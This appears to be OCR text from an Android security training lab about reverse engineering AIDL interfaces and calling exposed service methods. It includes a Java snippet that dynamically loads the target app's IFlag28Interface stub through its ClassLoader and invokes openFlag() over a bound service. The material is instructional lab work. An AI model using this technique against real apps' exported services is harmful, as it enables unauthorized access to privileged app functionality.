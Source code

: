 1. Look for the `DESCRIPTOR` variable, as it contains the original package path and .aidl filename
2. The AIDL methods can be derived from the interface methods with the `throws RemoteException`
3. The original method order is shown by the `TRANSACTION_` integers

---

# **Audit Exposed AIDL Functionality**

Now that we can reverse engineer an .aidl definition, let's see how we can find the implemented logic that can be reached with it.

To do that we can explore how the two apps below use a service to implement a backup mechanism.

---

# **Bind to AIDL Service with ClassLoader**

Adding an .aidl file to your own project can be annoying. Another method that appears more complex at first, is actually quite convenient. By loading the class directly from the target app, we can just invoke the functions we need and do not have to bother about method order or package names.

Here is an example code snippet to dynamically load the `IFlag28Interface` interface class from the `io.hextree.attacksurface` app, and invoke the `openFlag()` method through the service.

**Remote .Stub() Class Loader**

```java
ServiceConnection mConnection = new ServiceConnection() {
    @Overridepublic void onServiceConnected(ComponentName name, IBinder service) {
        // Load the class dynamically
        ClassLoader classLoader = getForeignClassLoader(Flag28Activity.this, "io.hextree.attacksurface");
        Class<?> iRemoteServiceClass = classLoader.loadClass("io.hextree.attacksurface.services.IFlag28Interface");

        Class<?> stubClass = null;
        for (Class<?> innerClass : iRemoteServiceClass.getDeclaredClasses()) {
            if (innerClass.getSimpleName().equals("Stub")) {
                stubClass = innerClass;
                break;
            }
        }

        // Get the asInterface method
        Method asInterfaceMethod = stubClass.getDeclaredMethod("asInterface", IBinder.class);

        // Invoke the asInterface method to get the instance of IRemoteService
        Object iRemoteService = asInterfaceMethod.invoke(null, service);

        // Call the init method and get the returned string
        Method openFlagMethod = iRemoteServiceClass.getDeclaredMethod("openFlag");
        boolean initResult = (boolean) openFlagMethod.invoke(iRemoteService);
    }
}
```
